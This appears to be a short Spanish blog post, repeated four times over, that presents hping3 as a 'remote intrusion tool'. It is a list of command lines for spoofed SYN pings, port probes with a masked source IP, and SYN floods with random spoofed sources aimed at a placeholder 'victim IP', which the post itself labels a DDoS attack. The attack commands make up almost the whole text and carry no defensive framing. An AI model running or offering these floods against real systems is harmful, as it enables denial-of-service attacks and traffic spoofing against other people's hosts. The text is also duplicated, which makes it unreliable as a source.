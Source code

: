 ```yaml
---
layout: post
title: "hping"
date: 2014-04-03 14:51
comments: true
categories: 
---
```

Herramienta de intrusión remota (ataque ICMP)

>\# hping3 -I eth0 -S 192.169.2.2  (ping no silencioso)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.169.2.2  (enmascarando  nuestra IP con una de ficticia-192.168.1.158)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.168.2.2 -p 135 (Descubrir máquinas que con un ping no responden, enmascarando la IP y especificando un puerto)

>\# hping3 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -i m100 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -S 192.168.1.158 --flood --rand-source -d 5000 -p 80 (Enviando paquetes lo más rápido posible [flood], simulando orígenes aleatorios [rand-source], tamaño del paquete en bites [d] y puerto de entrada)

>\# hping3 --rand-source -p 80 -S --flood ip_victima (ataque DDos a una ip)

hping

Herramienta de intrusión remota (ataque ICMP)

>\# hping3 -I eth0 -S 192.169.2.2  (ping no silencioso)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.169.2.2  (enmascarando  nuestra IP con una de ficticia-192.168.1.158)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.168.2.2 -p 135 (Descubrir máquinas que con un ping no responden, enmascarando la IP y especificando un puerto)

>\# hping3 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -i m100 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -S 192.168.1.158 --flood --rand-source -d 5000 -p 80 (Enviando paquetes lo más rápido posible [flood], simulando orígenes aleatorios [rand-source], tamaño del paquete en bites [d] y puerto de entrada)

>\# hping3 --rand-source -p 80 -S --flood ip_victima (ataque DDos a una ip)

hping

Herramienta de intrusión remota (ataque ICMP)

>\# hping3 -I eth0 -S 192.169.2.2  (ping no silencioso)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.169.2.2  (enmascarando  nuestra IP con una de ficticia-192.168.1.158)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.168.2.2 -p 135 (Descubrir máquinas que con un ping no responden, enmascarando la IP y especificando un puerto)

>\# hping3 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -i m100 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -S 192.168.1.158 --flood --rand-source -d 5000 -p 80 (Enviando paquetes lo más rápido posible [flood], simulando orígenes aleatorios [rand-source], tamaño del paquete en bites [d] y puerto de entrada)

>\# hping3 --rand-source -p 80 -S --flood ip_victima (ataque DDos a una ip)

hping

Herramienta de intrusión remota (ataque ICMP)

>\# hping3 -I eth0 -S 192.169.2.2  (ping no silencioso)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.169.2.2  (enmascarando  nuestra IP con una de ficticia-192.168.1.158)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.168.2.2 -p 135 (Descubrir máquinas que con un ping no responden, enmascarando la IP y especificando un puerto)

>\# hping3 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -i m100 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -S 192.168.1.158 --flood --rand-source -d 5000 -p 80 (Enviando paquetes lo más rápido posible [flood], simulando orígenes aleatorios [rand-source], tamaño del paquete en bites [d] y puerto de entrada)

>\# hping3 --rand-source -p 80 -S --flood ip_victima (ataque DDos a una ip)

